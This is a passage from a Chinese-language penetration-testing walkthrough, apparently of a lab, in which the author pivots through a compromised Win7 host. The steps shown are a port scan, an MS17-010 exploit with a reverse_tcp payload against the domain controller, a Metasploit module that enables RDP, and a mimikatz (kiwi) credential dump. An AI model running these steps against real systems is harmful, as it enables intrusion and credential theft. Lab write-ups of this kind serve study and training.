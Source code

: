 ![image-20220409232419532](./image-20220409232419532.png)

接下来我们就开始以该Win7为跳板，开始攻击域内主机。

先进行一个常规端口扫描：

> 速度挺一言难尽的，建议只测常见端口，一万个端口扫了挺久的。

![image-20220409235637333](./image-20220409235637333.png)

另一台机器的话，只扫描了常见端口。

另一台：

![image-20220410000014133](./image-20220410000014133.png)

可以看到445都开着。

##### MS17-010利用拿下域控

嗅探一下看看能不能使：

![image-20220410000259360](./image-20220410000259360.png)

发现好像都可以使用。

于是，直接使用MS17-010开始利用。

> 这个漏洞比较玄学，用的bind_tcp是拿不到的。

payload自动设为reverse_tcp，注意改一下LHOST为跳板机IP：

![image-20220410002241016](./image-20220410002241016.png)

然后攻击后可以拿到shell。

> 拿不到多试试，比较玄学。

![image-20220410002509539](./image-20220410002509539.png)

域控主机拿下就是系统权限。

##### 图形化域控

先把Win7的RDP打开:

```bash
run post/windows/manage/enable_rdp
```

![image-20220410004137960](./image-20220410004137960.png)

然后远程连接Win7.

同样打开2008的远程，接着MSF看一下密码。

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
```